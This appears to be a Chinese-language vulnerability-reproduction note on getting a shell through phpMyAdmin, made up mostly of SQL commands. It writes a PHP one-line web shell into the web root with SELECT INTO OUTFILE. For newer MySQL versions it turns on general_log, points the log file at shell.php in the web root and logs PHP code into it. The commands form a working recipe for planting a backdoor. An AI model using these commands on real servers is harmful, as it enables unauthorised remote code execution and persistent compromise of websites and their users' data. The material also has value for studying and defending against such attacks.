







# 漏洞复现——phpMyAdmin拿shell

## mysql低于5.0直接通过outfile写入shell

1. 若网站的mysql版本小于5.0，则直接通过outfile写入shell到网站的绝对路径下

   ``` SQL
   SELECT "<?php @assert($_REQUEST["admin"]);?>" INTO OUTFILE  '/网站绝对路径/shell.php'
   ```

2. 高版本mysql，利用secure防护利用日志记录保存后门。

   - 查询secure_file_priv（secure-file-priv是全局变量，指定文件夹作为导出文件存放的地方，这个值是只读的）是否为null

   ``` sql
   show variables like '%secure%'
   ```

   

   - 查询日志保存状态(ON代表开启 OFF代表关闭)和日志的保存路径

     ``` sql
     show variables like '%general%'
     ```

     

   - 若general_log为OFF，则修改这个值，开启日志保存

     ``` sql
     set global general_log='on';
     ```

   - 修改日志保存的路径(general_log_file值)

     ``` sql
     SET global general_log_file='<网站绝对路径>/shell.php'
     ```

     

   - 查询是否成功更改

     ``` sql
     show variables like '%general%'
     ```

     

     成功写入文件

     

   - 执行SQL语句写入一句话木马，这里写入phpinfo

     ``` sql
     SELECT '<?php phpinfo();?>';
     ```

     

     成功写入phpinfo并解析执行成功

     